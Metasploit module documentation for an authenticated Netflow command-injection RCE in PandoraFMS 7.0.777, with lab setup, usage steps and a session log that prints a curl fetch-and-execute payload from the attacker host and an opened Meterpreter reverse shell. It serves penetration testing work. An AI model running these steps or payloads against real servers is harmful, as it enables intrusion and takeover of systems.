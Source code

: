 ## Vulnerable Application

PandoraFMS offers multiple modules that can be turned on or off with an administrative account.
One of them is Netflow, which is responsible for real-time network monitoring.
It can collect network data and then report or dump it.
Once Netflow is configured, it allows you to perform various tasks, such as viewing and exporting network data.

The Netflow explorer contains a vulnerability,
when an unsanitized parameter from the Netflow configuration is placed into a string that gets executed using the exec() function.

The PandoraFMS can be installed from [here](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/777/Tarball/):

1. Download vulnerable PandoraFMS
1. Install webserver - Apache2, MySQL, PHP8.2+
1. Disable `strict_mode` in MySQL - `set global sql_mode='';`
1. Following installation steps of PandoraFMS
1. Enable Netflow in PandoraFMS settings
1. Run: `sudo apt install nfdump`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/pandora_fms_auth_netflow_rce`
1. Do: `set rhosts [target IP]`
1. Do: `set lhost  [attacker IP]`
1. Do: `set username  [username]`
1. Do: `set password  [password]`
1. Do: `run`
1. You should get a shell.

## Options


### USERNAME

Login username of existing user.

### PASSWORD

Login password of existing user.

## Scenarios

```
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set rhosts 192.168.168.146
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set PASSWORD pandora
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set USERNAME admin
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > run verbose=true 
[*] Command to run on remote host: curl -so ./khZKmkFYijJ http://192.168.168.128:8080/M1We21fZKyvgtWK9IWStLA;chmod +x ./khZKmkFYijJ;./khZKmkFYijJ&
[*] Fetch handler listening on 192.168.168.128:8080
[*] HTTP server started
[*] Adding resource /M1We21fZKyvgtWK9IWStLA
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] 192.168.168.146:80 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.168.146:80 - Version 7.0.777 detected
[+] 192.168.168.146:80 - The target is vulnerable. Vulnerable PandoraFMS version 7.0.777 detected
[*] Client 192.168.168.146 requested /M1We21fZKyvgtWK9IWStLA
[*] Sending payload to 192.168.168.146 (curl/7.68.0)
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 192.168.168.146:54980) at 2025-06-25 12:27:52 +0200

meterpreter > sysinfo
Computer     : 192.168.168.146
OS           : Ubuntu 20.04 (Linux 5.15.0-136-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
